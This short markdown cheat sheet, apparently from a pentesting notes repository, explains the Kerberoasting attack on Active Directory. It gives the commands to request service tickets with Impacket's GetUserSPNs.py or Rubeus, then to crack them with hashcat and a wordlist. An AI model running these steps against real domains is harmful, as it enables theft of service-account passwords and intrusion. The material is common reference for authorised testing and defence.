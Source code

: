 # Kerberoast

***Most popular Kerberos attack***
Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password  
This can be abused because TGS are crypted with the user's hash.  

Requirements : Credentials 


# Request for kerberoastable users
## Using Impacket
```bash
# From the local machine
GetUserSPNs.py DOMAIN/"username":"password" -dc-ip <IP> -request
```

## Using Rubeus
```cmd
:: Directly onto the target shell
Rubeus.exe kerberoast
```


# Crack the hash
```bash
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```